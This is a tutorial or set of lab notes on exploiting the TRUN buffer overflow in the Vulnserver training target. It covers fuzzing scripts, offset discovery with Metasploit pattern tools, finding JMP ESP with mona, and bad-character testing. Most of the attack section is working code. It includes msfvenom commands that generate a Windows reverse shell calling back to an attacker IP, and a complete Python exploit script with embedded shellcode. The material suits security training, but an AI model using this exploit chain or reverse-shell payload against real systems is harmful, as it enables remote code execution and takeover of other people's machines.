




# vuln server (Base)

**How to execute buffer flow in real scenario**

1. discover service are running in ports by `nmap`
2. Fuzzing (Crash the Program!)
3. Find Offset (EIP Control)

**if program opensource try to search on function like :**

<figure><figcaption></figcaption></figure>

**Where Can We Find Buffer Overflow?**

<figure><figcaption></figcaption></figure>

***

#### Lifecycle:

<figure><figcaption></figcaption></figure>

*   **Fuzzing**

    **define valid command on machine then start to test each command**

<figure><figcaption></figcaption></figure>

*   **Spike**

    first we need to know which input is vulnerable this process is called spiking, we can do this by tool called `generic_send_tcp` it take spiking script as an argument ,\*\*it will send many connections and if it’s crashed if machine run on port 21

<figure><figcaption></figcaption></figure>

```bash
generic_send_tcp 192.168.1.4 21 /usr/share/spike/audits/FTPD/ftpd1.spk 0 0
or
line_send_tcp 192.168.1.4 21 /usr/share/spike/audits/FTPD/ftpd1.spk 0 0  
```

but our machine run on port 9999 , we haven't script for this port in spike so let's create it by T**run()** function&#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Before System crash

<figure><figcaption></figcaption></figure>

After System crash

<figure><figcaption></figcaption></figure>

```bash
echo -e "HOST payload" | netcat ip_address port_number
```

*   **Python Script**

    In **Vulnserver**, the `TRUN` command is a **vulnerable command** that processes user input, but it does **not** properly handle long input strings. This makes it **susceptible to buffer overflow attacks**.

    ```python
    #!/bin/python3

    import sys,socket
    from time import sleep

    buffer= "A" * 100
    while True:
        try:
            s=socket.socket(socket.AF_INET , socket.SOCK_STREAM)
            s.connect(('192.168.1.2',9999))
            s.send(('TRUN / .:/' + buffer).encode())
            s.close()
            sleep(1)
            buffer = buffer + "A" * 100
            
        except:
            print('Fuzzing crashed at = %s' % str(len(buffer)))
            sys.exit()
    ```

    <figure><figcaption></figcaption></figure>

    <figure><figcaption></figcaption></figure>

    **The result**

    <figure><figcaption></figcaption></figure>

    the system is crashed

    <figure><figcaption></figcaption></figure>

    this point refer to when it crashed

    <figure><figcaption></figcaption></figure>
*   **Metasploit- Locate offset**

    which send a payload of unique characters

    <figure><figcaption></figcaption></figure>

    ```bash
    cd /usr/share/metasploit-framework/tools/exploit
    ./pattern_create.rb -l 2200 # 2200 is the length of payload
    ```

    **send this payload to machine**

    *   **1st way**

        ```python
        #!/bin/python3
        import sys,socket
        from time import sleep

        offset="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac>
        try:
                s=socket.socket(socket.AF_INET , socket.SOCK_STREAM)
                s.connect(('10.0.2.4',9999))
                s.send(('TRUN / .:/' + offset).encode())
                s.close()
        except:
                print("Error connecting on server")
                sys.exit()
        ```

        <figure><figcaption></figcaption></figure>
    *   **2nd way**

        open wire shark and start to follow request sent from spike or python script then choose any request and choose `follow > follow TCP Stream`

        <figure><figcaption></figcaption></figure>

        copy this payload or replace payload from pattern\_create and try send it by terminal

        ```python
        echo -e "TRUN / .:/AAAAAAAAAAAAAAAAAAAAAAAA" | nc 10.0.2.4 99999 
        ```

        <figure><figcaption></figcaption></figure>

        then look :) the server is crashed

        <figure><figcaption></figcaption></figure>

    > try two way because in this machine i get 2 location of offset

    *   **To determine which part of payload is overwrite on EIP**

        which the EIP value is 6F43376F now lets know which 4 byte is crashed the system

        **to define location of hex**

        <figure><figcaption></figcaption></figure>

        ```bash
        ./pattern_offset.rb -q 6F43376F  ### this number is EIP value
        ```

        now transfer to ASCII code

        <figure><figcaption></figcaption></figure>

        ```python
        echo 6F43376F | xxd -r -p
        ```

        to confirm this is the place which server is crash

        <figure><figcaption></figcaption></figure>

        > try to reduce the value of offset if not work
*   **Hijack Execution**

    which search for memory address refer to ESP address

    *   **usually search**

        First choose e the any service running to find any process to `JMP ESP` .

        > i choose any service randomly so choose the essfunc.dll service if you solve this machine again and i don’t prefer this way because it’s doesn’t show any information about service like have ASLR, … etc

        <figure><figcaption></figcaption></figure>

        then search in `JMP ESP` in each process and add a **break point**

        <figure><figcaption></figcaption></figure>

        then add this address to your script for hex reversed

        <figure><figcaption></figcaption></figure>

        run the script notice the EIP is changed

        <figure><figcaption></figcaption></figure>
    *   **use mona module**

        first download [mona.py](http://mona.py) module and put it in the `pycommands`folder so we can use it in immunity debugger `C:\\Program Files (x86)\\Immunity Inc\\Immunity Debugger\\PyCommands`

        second we find the right module in mona , the right module will have false in most of memory protection and will be attached and will be in the path of our VULN program

        <figure><figcaption></figcaption></figure>

        ```bash
        !mona modules
        ```

        then choose the less of security of this app which have False value

        Then i wanna search about JMP ESP in this Service so let’s transfer this command into op code

        <figure><figcaption></figcaption></figure>

        to transfer command to `op code`

        then search by this code in mona module

        <figure><figcaption></figcaption></figure>

        ```bash
        !mona find -s "\\xff\\xe4" -m "essfunc.dll" # which essfunc.dll refer to service
        ```

        choose any address and copy it

        <figure><figcaption></figcaption></figure>

        then press on `ALT+C` to return the CPU and search on this address

        <figure><figcaption></figcaption></figure>
*   **Shell code**

    *   **Finding The Bad Chars**

        to find them we can send all the hex chars and remove them one by one so lets modify our code

        ```bash
        badchars = (
          "\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f\\x10"
          "\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f\\x20"
          "\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f\\x30"
          "\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f\\x40"
          "\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\\x4d\\x4e\\x4f\\x50"
          "\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f\\x60"
          "\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f\\x70"
          "\\x71\\x72\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f\\x80"
          "\\x81\\x82\\x83\\x84\\x85\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f\\x90"
          "\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f\\xa0"
          "\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf\\xb0"
          "\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf\\xc0"
          "\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf\\xd0"
          "\\xd1\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf\\xe0"
          "\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef\\xf0"
          "\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff"
        )
        ```

        <figure><figcaption></figcaption></figure>

        * now start search in **DUMP** if there are any char in wrong place or removed
        * when u find consecutive bad chars u have to worry about the first of them not the second (if u removed both it will still work)
        * sometimes when a bad char has been removed it substitute with another char (try to search for that char will be easiest to identify the bad chars but take care not all of them are bad sometimes there’s that that char in it’s right place not a substitution)

    use MSVENOM to create a shell code

    <figure><figcaption></figcaption></figure>

    ```bash
    msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.0.2.5 LPORT=443 -e x86/shikata_ga_nai -b "\\x00\\x0a\\x0d" -f c
    ```

    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\\x00"
    ```

    *   **Breaking Down the Command:**

        🔹 `msfvenom` → A tool used to generate **custom payloads**.

        🔹 `-a x86` → Specifies **32-bit architecture (x86)**.

        🔹 `--platform Windows` → The target operating system is **Windows**.

        🔹 `-p windows/shell_reverse_tcp` → Creates a **Reverse Shell Payload** (the target system connects back to the attacker's machine).

        🔹 `LHOST=10.0.2.5` → The attacker's **IP address** (your machine).

        🔹 `LPORT=443` → The **port** on which your machine will listen for incoming connections.

        🔹 `-e x86/shikata_ga_nai` → **Encodes the shellcode** using `shikata_ga_nai` to bypass some security protections.

        🔹 `-b "\\x00\\x0a\\x0d"` → **Avoids bad characters** (`NULL (\\x00)`, `\\x0a`, and `\\x0d`), which might break the exploit.

        🔹 `-f c` → Formats the output as **C language shellcode**, so it can be used in an exploit script.
*   **Execute Shellcode**

    > note(the actual size was 2002 but now there was some problem somehow i couldn’t reach our breakpoint address so i tried to make it 2001 and it worked and when we try to run reverse shell script i changed it to 2003 so I just wanted to explain all this )

    reverse shell code

    ```bash
    #!/usr/bin/python3

    import sys, socket
    from time import sleep

    overflow=("\\xbe\\xaf\\x2f\\x75\\xb6\\xd9\\xca\\xd9\\x74\\x24\\xf4\\x5f\\x29\\xc9"
    "\\xb1\\x52\\x31\\x77\\x12\\x03\\x77\\x12\\x83\\x40\\xd3\\x97\\x43\\x62"
    "\\xc4\\xda\\xac\\x9a\\x15\\xbb\\x25\\x7f\\x24\\xfb\\x52\\xf4\\x17\\xcb"
    "\\x11\\x58\\x94\\xa0\\x74\\x48\\x2f\\xc4\\x50\\x7f\\x98\\x63\\x87\\x4e"
    "\\x19\\xdf\\xfb\\xd1\\x99\\x22\\x28\\x31\\xa3\\xec\\x3d\\x30\\xe4\\x11"
    "\\xcf\\x60\\xbd\\x5e\\x62\\x94\\xca\\x2b\\xbf\\x1f\\x80\\xba\\xc7\\xfc"
    "\\x51\\xbc\\xe6\\x53\\xe9\\xe7\\x28\\x52\\x3e\\x9c\\x60\\x4c\\x23\\x99"
    "\\x3b\\xe7\\x97\\x55\\xba\\x21\\xe6\\x96\\x11\\x0c\\xc6\\x64\\x6b\\x49"
    "\\xe1\\x96\\x1e\\xa3\\x11\\x2a\\x19\\x70\\x6b\\xf0\\xac\\x62\\xcb\\x73"
    "\\x16\\x4e\\xed\\x50\\xc1\\x05\\xe1\\x1d\\x85\\x41\\xe6\\xa0\\x4a\\xfa"
    "\\x12\\x28\\x6d\\x2c\\x93\\x6a\\x4a\\xe8\\xff\\x29\\xf3\\xa9\\xa5\\x9c"
    "\\x0c\\xa9\\x05\\x40\\xa9\\xa2\\xa8\\x95\\xc0\\xe9\\xa4\\x5a\\xe9\\x11"
    "\\x35\\xf5\\x7a\\x62\\x07\\x5a\\xd1\\xec\\x2b\\x13\\xff\\xeb\\x4c\\x0e"
    "\\x47\\x63\\xb3\\xb1\\xb8\\xaa\\x70\\xe5\\xe8\\xc4\\x51\\x86\\x62\\x14"
    "\\x5d\\x53\\x24\\x44\\xf1\\x0c\\x85\\x34\\xb1\\xfc\\x6d\\x5e\\x3e\\x22"
    "\\x8d\\x61\\x94\\x4b\\x24\\x98\\x7f\\x7e\\xb9\\xa0\\x7a\\x16\\xbb\\xa4"
    "\\x85\\x5d\\x32\\x42\\xef\\xb1\\x13\\xdd\\x98\\x28\\x3e\\x95\\x39\\xb4"
    "\\x94\\xd0\\x7a\\x3e\\x1b\\x25\\x34\\xb7\\x56\\x35\\xa1\\x37\\x2d\\x67"
    "\\x64\\x47\\x9b\\x0f\\xea\\xda\\x40\\xcf\\x65\\xc7\\xde\\x98\\x22\\x39"
    "\\x17\\x4c\\xdf\\x60\\x81\\x72\\x22\\xf4\\xea\\x36\\xf9\\xc5\\xf5\\xb7"
    "\\x8c\\x72\\xd2\\xa7\\x48\\x7a\\x5e\\x93\\x04\\x2d\\x08\\x4d\\xe3\\x87"
    "\\xfa\\x27\\xbd\\x74\\x55\\xaf\\x38\\xb7\\x66\\xa9\\x44\\x92\\x10\\x55"
    "\\xf4\\x4b\\x65\\x6a\\x39\\x1c\\x61\\x13\\x27\\xbc\\x8e\\xce\\xe3\\xcc"
    "\\xc4\\x52\\x45\\x45\\x81\\x07\\xd7\\x08\\x32\\xf2\\x14\\x35\\xb1\\xf6"
    "\\xe4\\xc2\\xa9\\x73\\xe0\\x8f\\x6d\\x68\\x98\\x80\\x1b\\x8e\\x0f\\xa0"
    "\\x09")

    #625011af that was our return adderess for the right Module and JMP command

    #here instead of having 4B's in EIP we will put our return address so the EIP now have a JMP code and the JMP code will take us to our mallicious code
    #the first 2001 A's will take us to the EIP
    #when we get to the EIP we put our JMP address,the JMP address will take us to the instructions that we provide 
    #the instructions we provide is our msvenom shell code we just generated 
    #the "\\x90" is NOPs is just padding between our jmp and shell code we try more than one size like 16,32..

    shellcode = "A" * 2003 + "\\xaf\\x11\\x50\\x62" + "\\x90" * 32 + overflow

    try:
      s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      s.connect(('10.0.2.4',9999))

      payload = b"TRUN /.:/" + shellcode

      s.send((payload))
      s.close()
    except:
      print ("Error connecting to server")
      sys.exit()
    ```

    > why **sudo** ? because port number less than 1024 and is booked for service running already >> you can chose any port number as you like

    <figure><figcaption></figcaption></figure>
